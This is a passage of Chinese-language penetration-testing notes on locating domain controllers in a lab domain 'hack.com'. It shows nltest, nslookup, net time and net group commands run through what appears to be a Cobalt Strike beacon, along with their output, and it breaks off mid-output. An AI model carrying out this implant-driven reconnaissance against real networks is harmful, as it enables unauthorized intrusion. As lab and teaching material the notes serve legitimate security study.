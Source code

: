 - 查询域控制机

  - `nltest /dclist:hack`

  - ```cmd
    beacon> shell nltest /dclist:hack
    [*] Tasked beacon to run: nltest /dclist:hack
    [+] host called home, sent: 50 bytes
    [+] received output:
    获得域“hack”中 DC 的列表(从“\\DC”中)。
        DC.hack.com [PDC]  [DS] 站点: Default-First-Site-Name
    此命令成功完成
    ```

- 查看域控主机名

  - `nslookup -type=SRV _ldap._tcp`

  - ```cmd
    beacon> shell nslookup -type=srv _ldap._tcp
    [*] Tasked beacon to run: nslookup -type=srv _ldap._tcp
    [+] host called home, sent: 60 bytes
    [+] received output:
    DNS request timed out.
        timeout was 2 seconds.
    服务器:  UnKnown
    Address:  192.168.75.5
    
    _ldap._tcp.hack.com	SRV service location:
    	  priority       = 0
    	  weight         = 100
    	  port           = 389
    	  svr hostname   = DC.hack.com
    DC.hack.com	internet address = 192.168.75.5
    ```

- 查看当前时间,服务器通常是主域服务器

  - `net time /domain`

  - ```cmd
    beacon> shell net time /domain
    [*] Tasked beacon to run: net time /domain
    [+] host called home, sent: 47 bytes
    [+] received output:
    \\DC.hack.com 的当前时间是 2023/8/29 10:28:10
    
    命令成功完成。
    ```

- 查看域控控制组

  - `net group "domain controllers" /domain`

  - ```cmd
    beacon> shell net group "domain controllers" /domain
    [*] Tasked beacon to run: net group "domain controllers" /domain
    [+] host called home, sent: 69 bytes
    [+] received output:
    这项请求将在域 hack.com 的域控制器处理。
    